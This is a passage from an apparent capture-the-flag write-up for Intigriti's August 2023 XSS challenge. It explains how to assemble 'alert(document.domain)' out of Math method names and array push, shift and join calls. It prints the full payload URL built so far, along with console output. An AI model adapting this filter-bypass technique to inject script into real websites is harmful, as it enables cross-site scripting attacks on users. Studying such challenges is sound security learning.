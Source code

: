 ### Joining The Array To Form The Payload String

After pushing the payload to seeds array, before joining it we need to get rid of the first numbers that are still existing in our array. You could see it with the Dev Tools if you lost track at this point when reading.

![Remaining Numbers](/static/images/intigriti-0823/remaining_nums_seeds.png)

We have 4 numbers that still exist at the beginning of the array. How do we get rid of them? we could use the <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/shift" target="_blank">shift()</a> array method which works like pop array method but in reverse returning the first element in the array and removing it from the array. Also it doesn’t care about the passed argument and that’s fine for us since we are passing it as an argument the number returned from the last called push method. Here is the seeds array, after running the shift method 4 times on the seeds array at the end of the current payload.

![Seeds Array At The End](/static/images/intigriti-0823/seeds_after_4_shifts.png)

Clean! These are the steps we executed till now:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift
```

Now we have to join it using `Math.seeds.join`. Here is the result from Dev Tools.

```js
> Math.seeds.join()
< 'a,l,e,r,t,(,d,o,c,u,m,e,n,t,.,d,o,m,a,i,n,)'
```

Oops! We have them comma separated 😞. So how to make it join without the comma? We know that `Math.seeds.join("")` with an empty string as an argument will join without the `,`.

```js
> Math.seeds.join("")
< 'alert(document.domain)'
```

But I’m not sure if have some empty strings out there to use and we couldn’t use String method to form it from a number. However converting converting an empty array to a string in JS will return an empty string!

